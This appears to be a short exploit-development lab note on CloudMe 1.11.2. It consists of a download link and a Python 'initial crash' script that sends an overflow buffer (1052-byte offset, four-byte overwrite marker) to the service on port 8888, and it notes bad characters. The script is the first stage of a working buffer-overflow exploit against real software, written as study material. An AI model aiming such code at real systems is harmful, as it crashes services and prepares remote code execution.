 # CloudMe 1.11.2

Downloaded from: https://www.exploit-db.com/apps/f0534b12cd51fefd44002862918801ab-CloudMe_1112.exe

## Initial Crash
```py
from struct import pack
import socket

#\x00\x0A\x0D

TARGET_IP = "127.0.0.1"
TARGET_PORT = 8888
target = (TARGET_IP, TARGET_PORT)  # vulnserver


crash = 2000  # change me
offset = 1052


payload = b"A"*offset
payload += b"B"*4
payload += b"C"*(crash - len(payload))

with socket.create_connection(target) as sock:

    sent = sock.send(payload)
    print(f"sent {sent} bytes")
 ```
